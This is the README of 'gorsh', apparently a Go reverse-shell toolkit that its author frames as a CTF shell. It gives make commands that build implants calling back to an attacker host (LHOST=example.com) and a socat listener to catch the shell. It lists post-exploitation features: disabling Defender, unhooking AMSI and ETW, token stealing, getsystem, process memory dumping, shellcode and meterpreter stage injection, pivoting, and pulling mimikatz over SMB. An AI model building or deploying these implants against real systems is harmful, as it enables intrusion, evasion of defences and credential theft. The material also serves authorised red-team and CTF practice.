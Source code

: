 # gorsh

[go]lang [r]everse [sh]ell

[![forthebadge](https://forthebadge.com/images/badges/fuck-it-ship-it.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/no-ragrets.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/contains-technical-debt.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/made-with-crayons.svg)](https://forthebadge.com)

![](https://i.imgur.com/x51XH6K.png)
[![asciicast](https://asciinema.org/a/NmeC42TNu8BgdjMLcyVUXo74x.svg)](https://asciinema.org/a/NmeC42TNu8BgdjMLcyVUXo74x)



## Usage

Generate agents with:

```bash
# For the `make` targets, you only need the`LHOST`and`LPORT`environment variables.
$ make {windows,macos,linux} LHOST=example.com LPORT=443
```

Generate the server with:

```bash
# For the `make` targets, you only need the`LHOST`and`LPORT`environment variables.
$ make server LPORT=443
```

Gen everything with `make all LHOST=example.com LPORT=443`

### Catching the shell

```bash
make listen LPORT=443
```

Tmux is powerful terminal multiplexer with robust session/windows/pane management. 
It works better at managing multiple reverse shells than most shell managers I've seen.
The server binary creates a tmux session per host and a window per each reverse shell binary invocation.
If you run the `spawn` command on a shell, a new window will open in the host's session, creating a "tab".

To catch a shell without `gorsh-server` and/or tmux, use:

```bash
socat -d -d OPENSSL-LISTEN:443,reuseaddr,cert=certs/server.pem,verify=0,fork READLINE
```

## Features

- Network scanner
- Ligolo-ng tunnels for socks-less pivoting
- Tab completion (dependent on exec method)
- Duplicate your shells with 'spawn'

### Windows
- Disable Defender (or any process) by demoting process tokens to untrusted.
- Execute Assembly - assemblies are gzipped & embedded. No hosting necessary
- Unhook modules (w/ builtins for AMSI and ETW)
- steal_token / revtoself
- getsystem - if admin
- minidump any process (uses comsvcs.dll)
- shellcode injection
- can fetch and inject meterpreter tcp and http stages
    - or any other shellcode that follows the metasploit staging protocol
    - first 4 bytes indicating the size of the following payload
        - `[size][payload]`

#### Not Windows
- `setuid`, useful for UID spoofing to bypass NFS "ACLs"
- Enumeration scripts
    - linpeas
    - linenum

### Execute Assembly

Assemblies are gzipped and embedded within the implant. Since this is a CTF
shell, I'm optimizing for ease of use and not tradecraft.

- `make list-assemblies` will show available assemblies from Flangvik's SharpCollection project.
- `make choose-assemblies` will bring up fzf, where you can filter and choose
what assemblies you want embedded. They will be embedded at the next build
time.
- to embed any other assemblies not in SharpCollection. gzip it and copy it to `./pkg/execute_assembly/embed/`

### Ligolo-NG Tunnels

Agents have the ligolo client embedded. Run `make start-ligolo` to prepare
interfaces and run ligolo-ng. From an agent, run `pivot` and a callback should
land within the ligolo interface. Select the callback in ligolo and `start`
routing. On your box, create a route to the remote network through the `tun`
interface and all traffic to that destination will now egress through ligolo.

```bash
ip route add 172.16.43.0/24 dev ligolo`
```

### File upload/download

Since this is a reverse shell, only sharing its stdin/out/err through a network socket, 
traditional methods of uploading and downloading file aren't available. There's
a docker smb server to bridge that gap. Configure the directories to be shared
in the `Makefile`, then run `make start-smb`. If you wish to see logs so you
can monitor callbacks, use `make smblogs`. Windows implants understand UNC
paths, so something like `cp //myip/tools/mimikatz.exe .` is possible.
